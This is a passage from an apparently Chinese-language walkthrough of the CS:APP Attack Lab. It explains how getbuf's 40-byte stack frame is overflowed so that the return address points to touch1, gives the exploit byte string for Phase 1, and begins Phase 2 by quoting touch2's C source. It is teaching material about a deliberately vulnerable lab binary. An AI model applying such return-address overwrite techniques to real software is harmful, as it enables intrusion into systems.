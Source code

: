 对于getbuf来说, 我们看到汇编的第一句就是

```asm
sub $0x28,%rsp
```

也就是说, getbuf首先开辟了0x28的stack空间.

对于touch1来说,我们知道它的地址是:0x4017c0. 

好的,知道这两点,我们就可以写攻击代码了, 在写之前, 先画个示意图:

![image-20200720231159598](https://cdn.jsdelivr.net/gh/ravenxrz/PicBed/img/image-20200720231159598.png)

说明:

1. 单元格中存放的是起始起始,一个内存单元8个字节
2. buffer由低到高写入

关键点是要 **覆盖test 401976**这个单元, 正常情况下,这里存放这从getbuf返回后,test函数中getbuf的下一行汇编指令. 要从test中抢夺函数控制权, 就需要覆盖这里. 那覆盖成什么样? 当然就是我们 touch1函数的首地址了, 另外需要注意机器的字节序(这里是小端序). 综上, 攻击代码如下:

```
/* question1: 填充40个字节后加入touch1的返回地址(小端序) */
00 00 00 00 00 00 00 00 /* 8 byte */
00 00 00 00 00 00 00 00 /* 8 byte */
00 00 00 00 00 00 00 00 /* 8 byte */
00 00 00 00 00 00 00 00 /* 8 byte */
00 00 00 00 00 00 00 00 /* 8 byte */
c0 17 40 00 00 00 00 00 /* touch1 address */
```

40 = 0x28

> 请注意, 之所以可以做,因为ctarget在汇编时关闭了 **stack随机和注入代码不可执行** 两个常用的阻止注入攻击的方法, 否则这个题就目前的知识来说是无解的.

## 2. Phase 2

题目:

Phase 2 involves injecting a small amount of code as part of your exploit string. Within the file ctarget there is code for a function touch2 having the following C representation:

```c
void touch2(unsigned val)
{
    vlevel = 2;
     /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
	}
	exit(0);
}
```
